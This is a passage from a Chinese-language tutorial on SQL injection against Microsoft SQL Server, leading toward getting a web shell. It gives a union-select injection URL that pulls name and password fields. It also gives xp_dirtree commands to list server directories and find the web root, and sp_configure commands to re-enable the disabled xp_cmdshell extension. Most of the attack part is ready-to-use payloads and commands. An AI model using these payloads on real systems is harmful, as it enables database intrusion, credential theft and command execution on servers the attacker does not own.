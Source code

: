 


在mssql中我们如果想查询多条数据可以使用%2B 也就是加号

```mssql
http://192.168.130.137/1.aspx?id=1 union select null,name%2Bpass,null from info

```



# 0x0a getshell

能否getshell要看你当前的用户权限，如果是没有进行降权的sa用户，那么你几乎可以做任何事。当然你如果有其他具有do_owner权限的用户也可以。

拿shell的两大前提就是

1. 有相应的权限db_owner
2. 知道web目录的绝对路径

我们先来了解下怎么去寻找web目录的绝对路径。

#### 1. 寻找绝对路径

1. 报错信息
2. 字典猜
3. 旁站的目录
4. 存储过程来搜索
5. 读配置文件

前三种方法都是比较常见的方法。我们主要来讲第四种调用存储过程来搜索。

在mssql中有两个存储过程可以帮我们来找绝对路径：`xp_cmdshell xp_dirtree`

先来看`xp_dirtree`直接举例子

```mssql
execute master..xp_dirtree 'c:' --列出所有c:\文件、目录、子目录 
execute master..xp_dirtree 'c:',1 --只列c:\目录
execute master..xp_dirtree 'c:',1,1 --列c:\目录、文件
```

当实际利用的时候我们可以创建一个临时表把存储过程查询到的路径插入到临时表中

```mssql
CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1;
```

我们再来看`xp_cmdshell`怎么去找绝对路径，实际上原理就是调用cmd来查找文件，相对来说这种方法更方便。

当然你可能遇到xp_cmdshell不能调用 如果报错

> SQL Server 阻止了对组件 ‘xp_cmdshell’ 的 过程’sys.xp_cmdshell’ 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用。

可以用如下命令恢复

```mssql
;EXEC sp_configure 'show advanced options',1;//允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;  //打开xp_cmdshell扩展
RECONFIGURE;--
```
